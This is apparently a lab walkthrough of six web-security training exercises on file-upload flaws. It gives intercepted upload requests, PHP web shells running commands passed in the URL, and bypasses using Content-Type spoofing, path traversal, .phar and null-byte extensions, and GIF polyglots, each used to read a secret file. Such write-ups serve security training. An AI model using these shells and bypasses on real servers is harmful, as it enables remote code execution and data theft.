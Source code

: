 # Navigation
- [Remote code execution via web shell upload](#remote-code-execution-via-web-shell-upload)
- [Web shell upload via Content-Type restriction bypass](#web-shell-upload-via-content-type-restriction-bypass)
- [Web shell upload via path traversal](#web-shell-upload-via-path-traversal)
- [Web shell upload via extension blacklist bypass](#web-shell-upload-via-extension-blacklist-bypass)
- [Web shell upload via obfuscated file extension](#web-shell-upload-via-obfuscated-file-extension)
- [Remote code execution via polyglot web shell upload](#remote-code-execution-via-polyglot-web-shell-upload)
# Remote code execution via web shell upload
1. Authenticate
2. Upload profile picture
3. Response discloses file is uploaded to `/avatars` directory and does not change the filename
4. On account page inspect element of profile picture and path to uploaded file is disclosed `/files/avatars/<file_name>`
	- Directly accessing the file shows the contents of the file
5. Text `php` code execution by uploading a file `<something>.php` and execute the `hostname` command
```php
<?php system('hostname'); ?>
```
6. Accessing the file returns the hostname
7. Write a web shell to the target
```php
<?php system($_GET['cmd']); ?>
```
8. Confirm code execution
```
GET /files/avatars/shell.php?cmd=id
```
9. Web shell works > Read `/home/carlos/secret`
# Web shell upload via Content-Type restriction bypass
1. Authenticate
2. Upload profile picture
3. Probe upload returns error message saying on `image/jpeg` and `image/png` are allowed
```
Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
```
4. Intercept request when uploading file to test bypass changing content type
```
POST /my-account/avatar
...<SNIP>...
Content-Disposition: form-data; name="avatar"; filename="hostname.php"
Content-Type: image/jpeg

<?php system('id'); ?>
...<SNIP>...
```
5. Account page discloses upload directory and accessing the file directly shows code execution
6. Write a web shell
```php
<?php system($_GET['cmd']); ?>
```
7. Read secret file
```
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret
```
# Web shell upload via path traversal
1. Authenticate > Upload profile picture
2. Uploading probe `php` file like normal goes to directory `/files/avatars/probe.php`
3. Directory does not execute the code even though we have uploaded it
4. Test directory traversal in the filename when uploading
```
filename="<@urlencode>../</@urlencode>probe.php"
```
- Hackvertor extension URL encoding above ^^^^
5. Response from server tells us the file was uploaded with the directory traversal in file name
```
The file avatars/../probe.php has been uploaded.
```
6. Accessing file `/files/probe.php` indicates code is executed
7. Upload web shell
8. Read secret file
```
GET /files/shell.php?cmd=cat+/home/carlos/secret
```
# Web shell upload via extension blacklist bypass
1. Authenticate > Upload profile picture
2. Uploading probe `php` file tells us `php` is not an allowed file extension
3. Upload alternative `php` file types e.g. `phar`
```
POST /my-account/avatar
...<SNIP>...
filename="shell.phar"
Content-Type: application/x-httpd-php

<?php system($_GET['cmd']); ?>
...<SNIP>...
```
4. Access uploaded shell and confirm code execution
5. Read secret file
```
GET /files/avatars/shell.phar?cmd=cat+/home/carlos/secret
```
# Web shell upload via obfuscated file extension
1. Authenticate > Upload profile picture
2. Uploading probing file tells us only files with `jpg` and `png` extensions are allowed
3. Upload file with special character injected in file name
```
POST /my-account/avatar
...<SNIP>...
filename="shell.php%00.jpg"
Content-Type: application/x-httpd-php

<?php system($_GET['cmd']); ?>
...<SNIP>...
```
4. Access uploaded shell and confirm code execution
5. Read secret file
```
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret
```
# Remote code execution via polyglot web shell upload
1. Authenticate > Upload profile picture
2. Uploading probe `php` file tells us the file is not a valid image
3. Fuzz the magic bytes allowed using [my list](https://raw.githubusercontent.com/MINEGOBLIN/wordlists/refs/heads/main/File%20upload/magicbytes.list)
4. Successful upload using the following GIF magic bytes
```
Content-Disposition: form-data; name="avatar"; filename="file_example_JPG_100kB.jpg"
Content-Type: image/jpeg

GIF87a  <br>GIF89a
```
5. Upload a web shell with the magic bytes
```
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

GIF87a  <br>GIF89a
<?php system($_GET['cmd']); ?>
```
6. Confirm code execution and read secret file
```
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret
```